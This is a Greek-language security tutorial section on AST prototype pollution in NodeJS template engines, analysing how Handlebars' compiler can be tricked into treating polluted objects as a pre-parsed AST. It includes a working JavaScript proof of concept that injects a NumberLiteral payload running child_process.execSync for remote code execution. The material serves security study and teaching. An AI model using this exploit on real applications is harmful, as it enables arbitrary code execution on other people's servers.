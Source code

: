 ### AST Prototype Pollution στο NodeJS

Το NodeJS χρησιμοποιεί εκτενώς τα Abstract Syntax Trees (AST) στη JavaScript για λειτουργίες όπως οι μηχανές προτύπων και το TypeScript. Αυτή η ενότητα εξερευνά τις ευπάθειες που σχετίζονται με τη μόλυνση πρωτοτύπου σε μηχανές προτύπων, συγκεκριμένα στις Handlebars και Pug.

#### Ανάλυση Ευπάθειας Handlebars

Η μηχανή προτύπων Handlebars είναι ευάλωτη σε επίθεση μόλυνσης πρωτοτύπου. Αυτή η ευπάθεια προκύπτει από συγκεκριμένες συναρτήσεις μέσα στο αρχείο `javascript-compiler.js`. Η συνάρτηση `appendContent`, για παράδειγμα, συνενώνει το `pendingContent` εάν είναι παρόν, ενώ η συνάρτηση `pushSource` επαναφέρει το `pendingContent` σε `undefined` μετά την προσθήκη της πηγής.

**Διαδικασία Εκμετάλλευσης**

Η εκμετάλλευση εκμεταλλεύεται το AST (Abstract Syntax Tree) που παράγεται από τις Handlebars, ακολουθώντας τα εξής βήματα:

1. **Manipulation of the Parser**: Αρχικά, ο αναλυτής, μέσω του κόμβου `NumberLiteral`, επιβάλλει ότι οι τιμές είναι αριθμητικές. Η μόλυνση πρωτοτύπου μπορεί να παρακάμψει αυτό, επιτρέποντας την εισαγωγή μη αριθμητικών συμβολοσειρών.
2. **Handling by the Compiler**: Ο μεταγλωττιστής μπορεί να επεξεργαστεί ένα αντικείμενο AST ή ένα πρότυπο συμβολοσειράς. Εάν το `input.type` ισούται με `Program`, η είσοδος αντιμετωπίζεται ως προ-αναλυμένη, κάτι που μπορεί να εκμεταλλευτεί.
3. **Injection of Code**: Μέσω της χειραγώγησης του `Object.prototype`, μπορεί κανείς να εισάγει αυθαίρετο κώδικα στη συνάρτηση προτύπου, κάτι που μπορεί να οδηγήσει σε απομακρυσμένη εκτέλεση κώδικα.

Ένα παράδειγμα που δείχνει την εκμετάλλευση της ευπάθειας Handlebars:
```javascript
const Handlebars = require("handlebars")

Object.prototype.type = "Program"
Object.prototype.body = [
{
type: "MustacheStatement",
path: 0,
params: [
{
type: "NumberLiteral",
value:
"console.log(process.mainModule.require('child_process').execSync('id').toString())",
},
],
loc: {
start: 0,
end: 0,
},
},
]

const source = `Hello {{ msg }}`
const template = Handlebars.precompile(source)

console.log(eval("(" + template + ")")["main"].toString())
```
Αυτός ο κώδικας δείχνει πώς ένας επιτιθέμενος θα μπορούσε να εισάγει αυθαίρετο κώδικα σε ένα πρότυπο Handlebars.
